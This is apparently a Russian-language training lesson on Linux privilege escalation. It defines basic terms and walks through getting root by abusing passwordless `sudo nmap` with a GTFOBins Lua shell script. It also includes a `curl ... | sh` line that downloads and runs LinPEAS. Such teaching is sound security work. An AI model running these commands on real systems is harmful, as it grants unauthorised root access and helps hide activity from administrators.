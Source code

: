 ### Основные понятия

**DMZ (англ. Demilitarized Zone — демилитаризованная зона, ДМЗ)** — сегмент сети, содержащий общедоступные сервисы и
отделяющий их от частных. Цель ДМЗ — добавить дополнительный уровень безопасности в локальной сети, позволяющий
минимизировать ущерб в случае атаки на один из общедоступных сервисов: внешний злоумышленник имеет прямой доступ только
к оборудованию в ДМЗ.

**Повышение привилегий** — это использование различных уязвимостей операционной системы и прикладного программного
обеспечения для повышения своих полномочий в атакуемой системе.

**Root (от англ. root — корень; читается «рут»)**, или суперпользователь — это специальный аккаунт и группа
пользователей в
UNIX- подобных системах с идентификатором пользователя UID 0 (User IDentifier), владелец которого имеет право на
выполнение всех без исключения операций.

**sudo** (англ. Substitute User and do, дословно «подменить пользователя и выполнить») — программа для системного
администрирования UNIX-систем, позволяющая делегировать те или иные привилегированные ресурсы пользователям с ведением
протокола работы.

**su** (сокр. от англ. Substitute User, Set UID, Switch User, Super User — замена пользователя, переключение
пользователя,
суперпользователь) — команда Unix-подобных операционных систем, позволяющая пользователю войти в систему под другим
именем, не завершая текущий сеанс.

### Разбор базового примера

Вы оказались на узле с Linux ОС, ваша задача — повысить свои привилегии до уровня Root.

Ход действий

1. Проверим права текущего пользователя:

        $ id

    2. Отмечаем, что текущий пользователь входит в группу sudo и, следовательно, может выполнять различные команды с
       повышенными привилегиями. Получаем список таких команд:

             $ sudo -l

        3. Видим, что мы можем запускать утилиту nmap, не вводя пароль; проверим, что права действительно повышаются,
           использовав опцию сканирования -sS, доступную только для root:

                  $ sudo nmap -sS localhost

4. Для более полного поиска векторов для повышения прав воспользуемся утилитой LinPEAS:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Скачаем и выполним этот скрипт, проанализируем его вывод:

$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

5. Для поиска способов выполнить произвольного кода с помощью утилиты с повышенными привилегиями обратимся к
   ресурсу https://gtfobins.github.io/ и найдем там nmap. Чтобы получить интерактивный шелл с правами root,
   воспользуемся командами с ресурса gtfobins и заставим nmap выполнить Lua-скрипт, открывающий командную оболочку:

Создадим временный файл с кодом скрипта и сохраним его имя в переменную TF:

    $ TF=$(mktemp)

Добавим код, открывающий оболочку sh:

    $ echo 'os.execute("/bin/sh")' > $TF

6. Запустим скрипт от имени root с помощью sudo и nmap:

        $ sudo nmap --script=$TF

    7. Проверяем полученные права:

             $ id

#### Общие принципы

Цели повышения привилегий:

Получение произвольного доступа ко всем хранящимся в системе данным
Использование возможностей системы, недоступных для обычного пользователя
Модификация работающего в системе программного обеспечения для сбора дополнительной информации
Сокрытие следов активности от системного администратора
Обеспечение условий для атаки на гипервизор
Методы повышения привилегий
Использование физического доступа

Например, когда вы получаете совершенно простой доступ на уровне вытаскивания диска или изменения пароля через загрузчик
grub.

Использование ошибок администрирования

Это те ошибки, которые возникают из-за недочетов администраторов, а не из-за ошибок в конкретном ПО, установленном в ОС

Эксплуатация логических бинарных уязвимостей привилегированных сервисов

Такие ситуации возможны, когда мы обнаружили уязвимость в установленном ПО, работающем под высокими привилегиями.

Атаки на ядро Linux

Большинство атак на ядро Linux связаны с повреждением его памяти.

В этом уровне мы рассмотрим наиболее часто используемый и легко осваиваемый метод повышения привилегий: использование
ошибок администрирования.